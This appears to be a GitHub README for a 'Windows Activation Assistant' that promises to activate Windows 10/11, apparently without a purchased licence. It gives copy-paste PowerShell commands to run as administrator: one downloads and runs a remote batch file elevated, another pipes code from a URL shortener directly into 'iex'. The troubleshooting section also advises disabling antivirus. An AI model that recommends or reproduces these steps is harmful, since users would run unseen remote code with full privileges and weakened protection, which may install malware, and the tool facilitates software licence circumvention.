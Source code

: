 # Windows Activation Assistant

A lightweight utility for Windows 10/11 activation management.

> ⚠️ **Disclaimer**: This tool is for educational and testing purposes only. Please ensure you have appropriate licensing for your Windows installation.

## 🌟 Features

- **Automated Activation**: Streamlined process for Windows 10 and 11
- **Multiple Methods**: Choose from PowerShell, manual batch, or script execution
- **User-Friendly**: Simple interface with clear instructions
- **Error Handling**: Built-in validation and error recovery
- **Logging**: Detailed activity logging for troubleshooting

## 📋 Prerequisites

- Windows 10 or Windows 11
- Administrative privileges
- Internet connection
- PowerShell 5.1 or higher

## 🚀 Installation Methods

### 1. PowerShell One-Line Installation

1. Press `Win + X` and select "Windows PowerShell (Admin)"
2. Copy and paste one of the following commands:

```powershell
# Full installation
irm "https://raw.githubusercontent.com/gelogrammer/Windows-10-and-11-Activator/refs/heads/main/windows.bat" -OutFile "windows.bat"; Start-Process -FilePath "windows.bat" -Verb RunAs

# Quick installation
irm https://dub.sh/activator | iex
```

### 2. Manual Batch File Installation

1. Download `windows.bat` from the releases page
2. Right-click the file and select "Run as administrator"
3. Follow the on-screen prompts

### 3. PowerShell Script Installation

1. Download `win.ps1` from the releases page
2. Right-click the file and select "Run with PowerShell"
3. Follow the on-screen prompts

## 📝 Usage Instructions

1. Choose your preferred installation method
2. Allow administrative privileges when prompted
3. Wait for the activation process to complete
4. Restart your system when prompted

## 🔍 Verification

To verify activation status:
1. Open Command Prompt as administrator
2. Run `slmgr /xpr`
3. Check the displayed activation status

## 📸 Screenshots

![Activation Process](https://github.com/user-attachments/assets/ce853d71-7d34-409c-a809-1a64508c14f3)
![Successful Activation](https://github.com/user-attachments/assets/b898383e-433d-412a-bb63-fa6ae9553155)

## ⚠️ Troubleshooting

If you encounter issues:
1. Ensure you have administrative privileges
2. Check your internet connection
3. Temporarily disable antivirus software
4. Review the log file at `%TEMP%\system_management.log`

## 📄 License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## 🤝 Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## 📞 Support

- Create an issue in this repository
- Review existing issues for solutions
- Check the [FAQ](FAQ.md) section

---

⭐ If you find this tool helpful, please consider giving it a star!
